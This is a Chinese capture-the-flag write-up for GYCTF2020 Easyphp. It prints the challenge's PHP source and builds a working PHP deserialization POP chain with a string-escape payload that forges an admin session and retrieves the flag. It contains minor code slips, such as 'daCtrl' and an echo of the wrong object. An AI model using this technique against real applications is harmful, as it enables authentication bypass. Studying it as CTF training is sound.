

# GYCTF2020-Easyphp

[参考借鉴wp](https://www.jianshu.com/p/21b5dd45724c)

启动靶机并访问，一进去是一个登录页面



先尝试了一下弱口令登录，不行，然后又猜测存在register注册页面，也没有，然后访问了下www.zip发现可以下载网页源码

login.php

```
<?php
require_once('lib.php');
?>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 
<title>login</title>
<center>
	<form action="login.php" method="post" style="margin-top: 300">
		<h2>百万前端的用户信息管理系统</h2>
		<h3>半成品系统 留后门的程序员已经跑路</h3>
        		<input type="text" name="username" placeholder="UserName" required>
		<br>
		<input type="password" style="margin-top: 20" name="password" placeholder="password" required>
		<br>
		<button style="margin-top:20;" type="submit">登录</button>
		<br>
		大家记得做好防护</img>
		<br>
		<br>
<?php 
$user=new user();
if(isset($_POST['username'])){
	if(preg_match("/union|select|drop|delete|insert|\#|\%|\`|\@|\\\\/i", $_POST['username'])){
    die("<br>Damn you, hacker!");
    }
    if(preg_match("/union|select|drop|delete|insert|\#|\%|\`|\@|\\\\/i", $_POST['password'])){
    die("Damn you, hacker!");
    }
    $user->login();
    }
    ?>
    </form>
</center>
```

---

update.php

```
<?php
require_once('lib.php');
echo '<html>
<meta charset="utf-8">
<title>update</title>
<h2>这是一个未完成的页面，上线时建议删除本页面</h2>
</html>';
if ($_SESSION['login']!=1){
	echo "你还没有登陆呢！";
}
$users=new User();
$users->update();
if($_SESSION['login']===1){
	require_once("flag.php");
	echo $flag;
}

?>

```

---

lib.php

```
<?php
error_reporting(0);
session_start();
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
class User
{
    public $id;
    public $age=null;
    public $nickname=null;
    public function login() {
        if(isset($_POST['username'])&&isset($_POST['password'])){
        $mysqli=new dbCtrl();
        $this->id=$mysqli->login('select id,password from user where username=?');
        if($this->id){
        $_SESSION['id']=$this->id;
        $_SESSION['login']=1;
        echo "你的ID是".$_SESSION['id'];
        echo "你好！".$_SESSION['token'];
        echo "<script>window.location.href='./update.php'</script>";
        return $this->id;
        }
    }
}
    public function update(){
        $Info=unserialize($this->getNewinfo());
        $age=$Info->age;
        $nickname=$Info->nickname;
        $updateAction=new UpdateHelper($_SESSION['id'],$Info,"update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
        //这个功能还没有写完 先占坑
    }
    public function getNewInfo(){
        $age=$_POST['age'];
        $nickname=$_POST['nickname'];
        return safe(serialize(new Info($age,$nickname)));
    }
    public function __destruct(){
        return file_get_contents($this->nickname);//危
    }
    public function __toString()
    {
        $this->nickname->update($this->age);
        return "0-0";
    }
}
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
    public function __construct($age,$nickname){
        $this->age=$age;
        $this->nickname=$nickname;
    }
    public function __call($name,$argument){
        echo $this->CtrlCase->login($argument[0]);
    }
}
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;
    public function __construct($newInfo,$sql){
        $newInfo=unserialize($newInfo);
        $upDate=new dbCtrl();
    }
    public function __destruct()
    {
        echo $this->sql;
    }
}
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="root";
    public $dbpass="root";
    public $database="test";
    public $name;
    public $password;
    public $mysqli;
    public $token;
    public function __construct()
    {
        $this->name=$_POST['username'];
        $this->password=$_POST['password'];
        $this->token=$_SESSION['token'];
    }
    public function login($sql)
    {
        $this->mysqli=new mysqli($this->hostname, $this->dbuser, $this->dbpass, $this->database);
        if ($this->mysqli->connect_error) {
            die("连接失败，错误:" . $this->mysqli->connect_error);
        }
        $result=$this->mysqli->prepare($sql);
        $result->bind_param('s', $this->name);
        $result->execute();
        $result->bind_result($idResult, $passwordResult);
        $result->fetch();
        $result->close();
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
        return $idResult;
    }
    public function update($sql)
    {
        //还没来得及写
    }
}
```

---

index.php

```
<?php
require_once "lib.php";

if(isset($_GET['action'])){
    require_once(__DIR__."/".$_GET['action'].".php");
}
else{
    if($_SESSION['login']==1){
       echo "<script>window.location.href='./index.php?action=update'</script>";
    }
    else{
       echo "<script>window.location.href='./index.php?action=login'</script>";
    }
}
?>
```

## 前置知识

```
$result=$this->mysqli->prepare($sql);
$result->bind_param('s', $this->name);
$result->execute();
$result->bind_result($idResult, $passwordResult);
$result->fetch();
$result->close();
```

**1、SQL查询准备**

```
$sql = 'select id,password from user where username=?';
```

- 这行代码定义了一个 SQL 查询，用于从数据库中选择用户的 `id` 和 `password`，条件是 `username` 等于某个值。
- `?` 是一个占位符，用于在后续步骤中安全地插入用户输入，防止 SQL 注入攻击。

**2、预编译SQL查询**

```
$result = $this->mysqli->prepare($sql);
```

- 使用 `$this->mysqli->prepare($sql)` 方法预编译 SQL 查询，这是一种防止 SQL 注入的安全机制。这里假设 `$this->mysqli` 是当前类中的一个已初始化的 MySQLi 数据库连接实例。
- 预编译查询会为之后的参数绑定做准备。

**3、绑定参数**

```
$result->bind_param('s', $this->name);
```

- 通过 `bind_param('s', $this->name)` 方法，将用户名绑定到 SQL 查询中的占位符 `?`。
- `'s'` 表示绑定的参数是一个字符串类型。
- `$this->name` 是当前对象的属性，假设是用户输入的用户名。

**4、执行查询**

```
$result->execute();
```

- 调用 `execute()` 方法来执行预编译的查询。

**5、绑定查询结果**

```
$result->bind_result($idResult, $passwordResult);
```

**6、获取查询结果**

```
$result->fetch();
```

- 调用 `fetch()` 方法，执行查询并将结果赋值到前面绑定的变量中 `$idResult` 和 `$passwordResult`。
- 这一步从数据库中提取一行数据。

---

寻找pop链，一共两个__destruct()入口函数，其中UpdateHepler类的__destruct()函数刚好可以触发User类的__toString函数，进而出发Info类的__Call()，再出发dbCtrl类login()函数，并且可以构造自己的sql语句传入。login()函数里进行了两次校验分别为session中用户名是否为admin以及登录用户名和密码是否正确，通过任一个校验都能实现登录。我们可以通过伪造sql语句将admin写入session用户名，再进行登录即可通过第一次校验。

pop链：`UpdateHepler::__destruct()->User::__toString->Info::__Call()->dbCtrl::login()`

```
$a = new UpdateHelper();
$a->sql = new User();
$a->sql->nickname = new Info();
$a->sql->nickname->CtrlCase = new daCtrl();
echo serialize();
```

然后我们需要绕过这些if判断

```
if ($this->token=='admin') {
	return $idResult;
	}
if (!$idResult) {
	echo('用户不存在!');
	return false;
}
if (md5($this->password)!==$passwordResult) {
	echo('密码错误！');
	return false;
}
	$_SESSION['token']=$this->name;
	return $idResult;
}
```

我们的目的就是这里的$_SESSION['token']=$this->name，

这里第二次校验将用户输入的password进行一次md5混淆后与查询到的password进行对比。我们可以构造sql语句`'select id,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?'`。这里`"c4ca4238a0b923820dcc509a6f75849b"是字符'1'的md5值

然后就能绕过第二次验证，然后只要username=admin，就能绕过if (!$idResult)。

```
<?php
error_reporting(0);
session_start();
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
class User
{
    public $id;
    public $age=null;
    public $nickname=null;
    public function login() {
        if(isset($_POST['username'])&&isset($_POST['password'])){
            $mysqli=new dbCtrl();
            $this->id=$mysqli->login('select id,password from user where username=?');
            if($this->id){
                $_SESSION['id']=$this->id;
                $_SESSION['login']=1;
                echo "你的ID是".$_SESSION['id'];
                echo "你好！".$_SESSION['token'];
                echo "<script>window.location.href='./update.php'</script>";
                return $this->id;
            }
        }
    }
    public function update(){
        $Info=unserialize($this->getNewinfo());
        $age=$Info->age;
        $nickname=$Info->nickname;
        $updateAction=new UpdateHelper($_SESSION['id'],$Info,"update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
        //这个功能还没有写完 先占坑
    }
    public function getNewInfo(){
        $age=$_POST['age'];
        $nickname=$_POST['nickname'];
        return safe(serialize(new Info($age,$nickname)));
    }
    public function __destruct(){
        return file_get_contents($this->nickname);//危
    }
    public function __toString()
    {
        $this->nickname->update($this->age);
        return "0-0";
    }
}
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;

    public function __call($name,$argument){
        echo $this->CtrlCase->login($argument[0]);
    }
}
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;

    public function __destruct()
    {
        echo $this->sql;
    }
}
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="root";
    public $dbpass="root";
    public $database="test";
    public $name;
    public $password;
    public $mysqli;
    public $token;
    public function __construct()
    {
        $this->name=$_POST['username'];
        $this->password=$_POST['password'];
        $this->token=$_SESSION['token'];
    }
    public function login($sql)
    {
        $this->mysqli=new mysqli($this->hostname, $this->dbuser, $this->dbpass, $this->database);
        if ($this->mysqli->connect_error) {
            die("连接失败，错误:" . $this->mysqli->connect_error);
        }
        $result=$this->mysqli->prepare($sql);
        $result->bind_param('s', $this->name);
        $result->execute();
        $result->bind_result($idResult, $passwordResult);
        $result->fetch();
        $result->close();
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
        return $idResult;
    }
    public function update($sql)
    {
        //还没来得及写
    }
}

$sql = 'select id,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?';


$a = new UpdateHelper();
$a->sql = new User();
$a->sql->nickname = new Info();
$a->sql->nickname->CtrlCase = new dbCtrl();
$a->sql->age = $sql;
$a->sql->nickname->CtrlCase->name = 'admin';
$a->sql->nickname->CtrlCase->password = '1';	//注意这里是字符串1
echo serialize($a);
```

取得payload如下：

```
O:12:"UpdateHelper":3:{s:2:"id";N;s:7:"newinfo";N;s:3:"sql";O:4:"User":3:{s:2:"id";N;s:3:"age";s:71:"select id,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";s:8:"nickname";O:4:"Info":3:{s:3:"age";N;s:8:"nickname";N;s:8:"CtrlCase";O:6:"dbCtrl":8:{s:8:"hostname";s:9:"127.0.0.1";s:6:"dbuser";s:4:"root";s:6:"dbpass";s:4:"root";s:8:"database";s:4:"test";s:4:"name";s:5:"admin";s:8:"password";s:1:"1";s:6:"mysqli";N;s:5:"token";N;}}}}
```

现在我们只需要对这个字符串进行反序列化即可实现登录。可以利用User类update()函数的反序列化，这个函数在update.php中被调用。这里的反序列化字符串为getNewInfo()函数生成的字符串，该函数实例化了一个Info对象后序列化并进行了safe()函数过滤，并且实例化Info对象时参数可控。但是如果我们在这里传入参数，php只会把它当成字符串，不会解析为对象，无法触发pop链。因为这里反序列化的是Info对象。

我们观察safe()函数可以发现，该函数对字符串进行了一些替换，但是替换前后字符串长度可能发生变化，比如将union替换为hacker增加了一个字符，于是我们可以利用这个漏洞将我们的序列化字符串逃逸出来。

我们先构造一个Info类，并将nickname属性赋值为我们的序列化字符串，再进行反序列化

```
<?php
error_reporting(0);
session_start();
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
class User
{
    public $id;
    public $age=null;
    public $nickname=null;
    public function login() {
        if(isset($_POST['username'])&&isset($_POST['password'])){
            $mysqli=new dbCtrl();
            $this->id=$mysqli->login('select id,password from user where username=?');
            if($this->id){
                $_SESSION['id']=$this->id;
                $_SESSION['login']=1;
                echo "你的ID是".$_SESSION['id'];
                echo "你好！".$_SESSION['token'];
                echo "<script>window.location.href='./update.php'</script>";
                return $this->id;
            }
        }
    }
    public function update(){
        $Info=unserialize($this->getNewinfo());
        $age=$Info->age;
        $nickname=$Info->nickname;
        $updateAction=new UpdateHelper($_SESSION['id'],$Info,"update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
        //这个功能还没有写完 先占坑
    }
    public function getNewInfo(){
        $age=$_POST['age'];
        $nickname=$_POST['nickname'];
        return safe(serialize(new Info($age,$nickname)));
    }
    public function __destruct(){
        return file_get_contents($this->nickname);//危
    }
    public function __toString()
    {
        $this->nickname->update($this->age);
        return "0-0";
    }
}
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;

    public function __call($name,$argument){
        echo $this->CtrlCase->login($argument[0]);
    }
}
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;

    public function __destruct()
    {
        echo $this->sql;
    }
}
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="root";
    public $dbpass="root";
    public $database="test";
    public $name;
    public $password;
    public $mysqli;
    public $token;
    public function __construct()
    {
        $this->name=$_POST['username'];
        $this->password=$_POST['password'];
        $this->token=$_SESSION['token'];
    }
    public function login($sql)
    {
        $this->mysqli=new mysqli($this->hostname, $this->dbuser, $this->dbpass, $this->database);
        if ($this->mysqli->connect_error) {
            die("连接失败，错误:" . $this->mysqli->connect_error);
        }
        $result=$this->mysqli->prepare($sql);
        $result->bind_param('s', $this->name);
        $result->execute();
        $result->bind_result($idResult, $passwordResult);
        $result->fetch();
        $result->close();
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
        return $idResult;
    }
    public function update($sql)
    {
        //还没来得及写
    }
}

$sql = 'select id,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?';

$a = new UpdateHelper();
$a->sql = new User();
$a->sql->nickname = new Info();
$a->sql->nickname->CtrlCase = new dbCtrl();
$a->sql->age = $sql;
$a->sql->nickname->CtrlCase->name = 'admin';
$a->sql->nickname->CtrlCase->password = '1';	//注意这里是字符串1
$s = serialize($a);
echo $s;
echo "<br>";
$b = new Info();
$b->nickname = $s;
echo serialize($a);
```

获取到的payload如下：

```
O:4:"Info":3:{s:3:"age";N;s:8:"nickname";s:447:"O:12:"UpdateHelper":3:{s:2:"id";N;s:7:"newinfo";N;s:3:"sql";O:4:"User":3:{s:2:"id";N;s:3:"age";s:71:"select id,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";s:8:"nickname";O:4:"Info":3:{s:3:"age";N;s:8:"nickname";N;s:8:"CtrlCase";O:6:"dbCtrl":8:{s:8:"hostname";s:9:"127.0.0.1";s:6:"dbuser";s:4:"root";s:6:"dbpass";s:4:"root";s:8:"database";s:4:"test";s:4:"name";s:5:"admin";s:8:"password";s:1:"1";s:6:"mysqli";N;s:5:"token";N;}}}}";s:8:"CtrlCase";N;}
```

可以看到第一步生成的payload长度为447，因此这447个字符全部会被解析成字符串，不会存在中间的引号闭合前面的引号产生注入的问题。但是由于前面safe()函数进行替换时可能会导致字符串长度变化导致序列化字符串中的长度失效。如果我们在第一步的字符串前面加上447个union，进行替换后，字符串长度会加447，如果我们在加上";，便可以逃逸出我们的字符串。我们首先对payload进行一些修改，保证在替换后能正确解析。

在前面加上";s:6:"CtrlCase";，可以闭合前面的引号并将我们的payload赋值给CtrlCase，然后在最后加上;}保证字符串格式正确。实际上就是将上一步payload中最后";s:8:"CtrlCase";N;}中的N替换为我们第一步的payload。然后我们测量出这个字符串的长度为466，因此我们在前面加上466个union

```
unionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunion";s:8:"CtrlCase";O:12:"UpdateHelper":3:{s:2:"id";N;s:7:"newinfo";N;s:3:"sql";O:4:"User":3:{s:2:"id";N;s:3:"age";s:71:"select id,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";s:8:"nickname";O:4:"Info":3:{s:3:"age";N;s:8:"nickname";N;s:8:"CtrlCase";O:6:"dbCtrl":8:{s:8:"hostname";s:9:"127.0.0.1";s:6:"dbuser";s:4:"root";s:6:"dbpass";s:4:"root";s:8:"database";s:4:"test";s:4:"name";s:5:"admin";s:8:"password";s:1:"1";s:6:"mysqli";N;s:5:"token";N;}}}};}
```

然后在update.php页面用post方式提交

```
age=1&nickname=unionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunion";s:8:"CtrlCase";O:12:"UpdateHelper":3:{s:2:"id";N;s:7:"newinfo";N;s:3:"sql";O:4:"User":3:{s:2:"id";N;s:3:"age";s:71:"select id,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";s:8:"nickname";O:4:"Info":3:{s:3:"age";N;s:8:"nickname";N;s:8:"CtrlCase";O:6:"dbCtrl":8:{s:8:"hostname";s:9:"127.0.0.1";s:6:"dbuser";s:4:"root";s:6:"dbpass";s:4:"root";s:8:"database";s:4:"test";s:4:"name";s:5:"admin";s:8:"password";s:1:"1";s:6:"mysqli";N;s:5:"token";N;}}}};}
```

然后这个时候我们已经在session中写入了admin

```
$_SESSION['token']=$this->name;
```

在login.php用admin作为用户名登录时

lib的user类

```
$mysqli=new dbCtrl();
$this->id=$mysqli->login('select id,password from user where username=?');
```

user类中的$mysqli=new dbCtrl();会触发dbCtrl类中的__construct函数，使得`$this->token=$_SESSION['token'];即admin`

```
   public function __construct()
    {
        $this->name=$_POST['username'];
        $this->password=$_POST['password'];
        $this->token=$_SESSION['token'];
    }
```

这里会执行sql语句，由于数据库中存在admin用户名，所以$idResult的值为真。

然后这里由于之前在session中写入了admin，所以第一步验证就能通过，然后就会返回$idResult

```
   #lib.php	dbCtrl::login($sql)
   
   if ($this->token=='admin') {
            return $idResult;
        }
```

然后$this->id的值就为真，通过验证，并且自动跳转到update.php，

```
 if($this->id){
        $_SESSION['id']=$this->id;
        $_SESSION['login']=1;
        echo "你的ID是".$_SESSION['id'];
        echo "你好！".$_SESSION['token'];
        echo "<script>window.location.href='./update.php'</script>";
        return $this->id;
```

最后通过update.php中的if判断得到flag

```
if($_SESSION['login']===1){
	require_once("flag.php");
	echo $flag;
}
```

